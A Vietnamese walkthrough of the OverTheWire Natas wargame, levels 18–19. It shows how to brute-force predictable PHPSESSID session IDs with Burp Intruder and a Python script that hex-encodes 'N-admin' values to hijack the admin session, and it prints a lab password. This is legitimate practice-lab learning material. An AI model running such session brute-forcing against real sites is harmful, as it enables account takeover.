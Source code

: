 Tuy code có vẻ khó hiểu nhưng cơ bản bài này sử dụng một custom-session-manager, với giá trị của PHPSESSID nằm ngẫu nhiên trong khoảng từ (1, 640). Tất nhiên admin cũng chỉ có thể nằm trong mớ giá trị đó thôi, và chúng ta sẽ thử dần dần từng giá trị cho đến khi thành công.

- Dùng burp suite để bắt request đăng nhập `admin/123`

    ![](https://i.imgur.com/xnt0iGU.png)

- Chuyển qua tab Intruder và chọn số 312 để thực hiện payload brute force `PHPSESSID` từ `1->640`
- Tại payload 119 đã nhận được kết quả thành công

    ![](https://i.imgur.com/sgz7W1K.png)

- Quan sát được rằng ta đã có được password của level tiếp theo


---
### 19. Lv18 -> Lv19

>username/password : **natas19/8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s** 

![](https://i.imgur.com/wNOWbUm.png)

level này cho chúng ta hint rằng là giống level trước nhưng chỉ khác giá trị PHPSESSID sẽ không còn đơn giản nữa. Vậy ý tưởng khai thác đương nhiên cũng giống bài trước.
Đầu tiên kiểm tra khi đăng nhập bằng tài khoản `admin/123` thì thấy `PHPSESSID=35372d61646d696e`. Có thể đây là một loại encode nào đó nhưng không quá phức tạp. Quan sát thì cũng dễ nhận thấy nó là một chuỗi HEX. Thử decode `hex2text` bằng các tool online thì thấy giá trị nó chính là `57-admin`. Vậy là đã rõ format của nó, bây giờ ta chỉ cần đi brute-force giá trị như level trước rồi gắn giá trị đó với `-admin` sau đó encode sang HEX và gửi đi là thành công.
Để tự động hóa được các công đoạn ở trên ta có thể sử dụng đoạn code này 

```
import requests
import binascii

url = "http://natas19.natas.labs.overthewire.org"

s = requests.Session()
s.auth = ('natas19', '8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s')

for x in range(1000):
    tmp = str(x) + "-admin"
    val = binascii.hexlify(tmp.encode('utf-8'))

    cookies = dict(PHPSESSID=val.decode('ascii'))
    r = s.get(url, cookies=cookies)
    if "Login as an admin to retrieve" in r.text:
        pass
    else:
        print(r.text)
        break
```
